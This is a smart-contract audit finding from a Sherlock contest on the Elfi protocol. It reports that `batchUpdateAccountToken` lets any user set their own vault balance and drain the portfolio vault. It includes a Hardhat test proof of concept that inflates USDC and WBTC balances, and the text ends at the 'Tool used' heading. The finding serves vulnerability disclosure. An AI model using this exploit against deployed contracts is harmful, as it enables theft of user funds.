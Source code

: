 Source: https://github.com/sherlock-audit/2024-05-elfi-protocol-judging/issues/28 

## Found by 
0xPwnd, 0xrex, 1337, KingNFT, KrisRenZo, KupiaSec, PNS, Timenov, blackhole, debugging3, jah, jennifer37, joicygiore, link, mstpr-brainbot, pashap9990, qpzm, r0bert, tedox, volodya, whitehair0330
## Summary
Anyone can call `batchUpdateAccountToken` to update their balance in portfolio vault without depositing the tokens. 
## Vulnerability Detail
Simply call the function with desired amounts and withdraw the funds from portfolio vault

**Coded PoC:**
```typescript
it("Anyone Can change the balance as wish", async function () {
		const usdcAmount = precision.token(1000, 6);
		// do this so that the user0 account is exists
		await deposit(fixture, {
			account: user0,
			token: usdc,
			amount: usdcAmount,
		});

		// change the balance as you wish
		const updateAccParams = {
			account: user0.address,
			tokens: [usdcAddr, wbtcAddr],
			changedTokenAmounts: [
				precision.token(100_000, 6), // USDC with 6 decimals
				precision.token(100), // WBTC with default 18 decimals
			],
		};

		await accountFacet.connect(user0).batchUpdateAccountToken(updateAccParams);

		const accountInfo = await accountFacet.getAccountInfo(user0.address);
		console.log(
			"Account info before execute and after create request",
			accountInfo
		);
	});
```
## Impact
All funds in portfolio vault can be drained. 
## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71
## Tool used
